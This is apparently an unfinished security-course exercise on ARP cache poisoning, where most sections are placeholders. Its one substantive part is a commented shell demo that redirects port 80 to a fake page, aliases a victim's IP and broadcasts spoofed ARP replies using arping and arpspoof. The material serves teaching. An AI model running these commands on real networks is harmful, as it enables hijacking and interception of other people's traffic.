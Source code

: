 # Performing an ARP Cache Poisoning attack

In this exercise we will pretend to be a machine on the LAN that we are not by lying about the IP address we were given by the LAN's DHCP server. This will enable us to arbitrarily redirect local network traffic to any machine we wish, including ourselves, such that we can perform network-based Denial-of-Service (DOS) or Machine-in-the-Middle (MITM) attacks. We will accomplish this by exploiting the lack of peer authentication in the Address Resolution Protocol (ARP), which maps an ethernet device's MAC address to its IP address.

Essentially, we will be performing an *ARP spoofing* attack. As this behavior is relatively conspicuous, we will also cover the basics of *MAC address spoofing*, which will assign a fake hardware address to the NIC you will use to emit spoofed ARP replies to the network. This combination of MAC and ARP spoofing enables you to masquerade as any other device on the local network segment.

# Contents

1. [Objectives](#objectives)
1. [Bill of materials](#bill-of-materials)
1. [Prerequisites](#prerequisites)
1. [Set up](#set-up)
1. [Practice](#practice)
    1. [Introduction](#introduction)
1. [Defenses](#defenses)
1. [Discussion](#discussion)
1. [Additional references](#additional-references)

# Objectives

> :construction: TK-TODO

# Bill of materials

> :construction: TK-TODO

# Prerequisites

> :construction: TK-TODO

# Set up

> :construction: TK-TODO

# Practice

> :construction: TK-TODO

## Introduction

> :construction: TK-TODO

## :construction: TK-TODO

A demo of performing an ARP cache poisoning attack.

Don't forget to spoof your own hardware address first:

* [SimpleSpoofMAC](https://github.com/meitar/SimpleSpoofMAC)

```sh
# Some assumptions for this demo:
VICTIM_IP=192.168.9.10
VICTIM_mDNS=server.local
INTERFACE=en0

# Make a temporary directory to store our spoofed site.
mkdir /tmp/hijack
cd !$ # Go there.

# Place an `index.html` file in the directory that will be the
# HTTP server's document root.
echo "Expecting a local server? Surprise! It's been hijacked by an ARP cache poisoning attack." > index.html

# Start an HTTP server on port 8000 (the default).
python3 -m http.server &

# Become a `sudo`'er so that we can bind to privileged ports.
su admin

# Redirect port 80 traffic to our HTTP server on localhost.
sudo socat TCP4-LISTEN:80,reuseaddr,fork TCP:127.0.0.1:8000

# Find the IP address of the device we are going to impersonate.
dns-sd -G v4 $VICTIM_mDNS # Resolve (via mDNS) the server's domain name.
# GNU/Linux users will probably want to do:
#avahi-resolve --name -4 $VICTIM_mDNS

# Alias our own NIC to the IP address that we want to masquerade as.
# NOTE: This is not necessary for an MITM, since we just need to pass
# traffic back and forth between our two targets. However, as this is
# demos a *hijack* rather than an MITM, we need to respond *as* the
# target instead of passing traffic *to* the target.
sudo ifconfig $INTERFACE ${VICTIM_IP}/24 alias
# GNU/Linux users will probably want to do this instead:
#ip address add ${VICTIM_IP}/24 dev $INTERFACE

# Let's take a closer look at the IP address in that command:
#
#sudo ifconfig en0 192       . 168       . 9         . 10        /24 add
#                  1100 0000 . 1010 1000 . 0000 1001 . 0000 1010
#                       ^
#                       | The 1s mean "read this bit as part of a network ID."
#                       v
#                  255       . 255       . 255       . 0
#                  1111 1111 . 1111 1111 . 1111 1111 . 0000 0000

# Now that we know the server's IP address, let's note its MAC address.
# If it responds to ICMP echo requests, `ping` will show us output:
ping $VICTIM_IP

# If it doesn't, we can do an ARP scan instead. There are many tools, but I
# like using `nmap`; its `-sn` option will do only a host discovery scan.
sudo nmap -sn -PR $VICTIM_IP # Note `-PR` is default, so can be omitted.

# An alternative tool that provides more output is `arp-scan`.
arp-scan $VICTIM_IP

# We can also use the `arping` utility for a more surgical approach:
sudo arping -c 1 -i $INTERFACE $VICTIM_IP

# We should now have an entry in our local ARP table ("ARP cache"):
arp -n $VICTIM_IP
# GNU/Linux users will probably want to do this instead:
#ip neighbour show $VICTIM_IP

# To actually perform the attack (i.e., to lie about the MAC-to-IP
# mapping to the network), we can configure our attack machine to
# respond to ARP requests for the victim IP address with our own
# NIC's MAC address. This will not *necessarily* work due to the fact
# that the legitimate answer may come after our own, overriding it.
sudo arp -s $VICTIM_IP auto pub only ifscope $INTERFACE

# NOTE: This is only currently easy on true UNIX, like BSD. Attempts
# to publish a Proxy ARP entry on GNU/Linux requires a kernel tunable
# (`net.ipv4.conf.${INTERFACE}.proxy_arp`) and proper routing tables.
# If you really want to attempt this as a GNU/Linux user, you will
# ulimately want to invoke a command such as the following after setting
# up your IP routing tables appropriately. ("Appropriately" means what?)
# Some guidance at http://linux-ip.net/html/tools-ip-neighbor.html
#sudo arp -Ds $VICTIM_IP $INTERFACE pub

# To improve the liklihood of successfully poisoning the target's ARP cache,
# we want to continuously broadcast the wrong information, repeatedly.
# The "wrong information" means an ARP packet whose payload contains:
#
# * The `Sender MAC address` field set to the MAC address of the attacker.
# * The `Sender IP address` field set to the IP address of the target.
# * The `Target MAC address` field set to the broadcast MAC address.
# * The `Target IP address` field set to 0.0.0.0.
#
# This should be sent as an ARP reply (opcode `0x02`).
#
# What this does is tell devices that the IP address of the target is
# associated with the MAC address of the attacker; hence, ARP spoofing.

# One way we could construct such an ARP packet manually is like so:
sudo arping -i $INTERFACE -U -P -S $VICTIM_IP 0.0.0.0

# More simply, we can just use the `arpspoof` tool:
arpspoof $VICTIM_IP
```

# Discussion

> :construction: TK-TODO

# Additional references

> :construction: TK-TODO
